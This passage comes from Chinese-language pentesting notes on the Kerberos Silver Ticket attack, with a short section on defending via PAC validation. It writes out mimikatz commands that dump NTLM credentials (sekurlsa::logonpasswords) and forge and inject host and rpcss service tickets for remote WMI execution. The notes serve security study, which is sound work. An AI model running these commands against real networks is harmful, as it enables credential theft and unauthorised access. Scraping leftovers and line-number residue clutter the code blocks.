 3. 查看是否添加成功 uage-apl

   ```cmd
   010203schtasks /query /s dc.laffrex.com
   #如果无法查看，使用美国时区编码
   chcp 437
   ```

##### 远程命令执行

- 使用WMI在目标系统上远程命令执行。需要导入两张Silver Ticket,一张**host Silver Ticket**,一张**rpcss Silver Ticket**

1. 导入票据 uage-apl

   ```apl
   010203kerberos:golden /user:伪造的用户名 /domain:域名 /sid:sID /target:目标主机 /rc4:目标主ss的hash值 /service:host  /ptt
   
   kerberos:golden /user:伪造的用户名 /domain:域名 /sid: SID /target:目标主机 /rc4:目标主机的hash值 /service:rpcss  /ptt
   ```

2. 执行wmi命令，在远程主机上创建新进程

#### 防御方法

1. 尽量保证凭证不被获取到

2. 增加验证

   1. 通过开启PAC(Privileged Attribute Certificate)特权属性证书保护功能。开启PAC后，PAC会将client发送的票据ticket发送给KDC，由KDC进行验证ticket是否有效，就可以使所伪造的票据无法进行利用。

   2. 在Server端开启的方式是更改注册表中的一个值，将uage-apl

      ```apl
      01HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos\Parameters
      ```

      中的ValidateKdcPacSignature设为1

#### 实例

1. 获取到目标服务器的NTLM哈希值

   - 为服务器的HTLM哈希值，而不是用户的 uage-apl

   ```apl
010203040506privilege::debug
   
   sekurlsa::logonpasswords
   
   #去掉sid后3位，为域控信息标志位
   S-1-5-21-1027567978-1567870151-2422577431
   ```
   
   ![获取NTLM哈希值](https://minioapi.laffrex.top/laffrex/pictures/2024/11/14/202411141635946.png)

2. 在本机上制作白银票据，写入内存 uage-apl
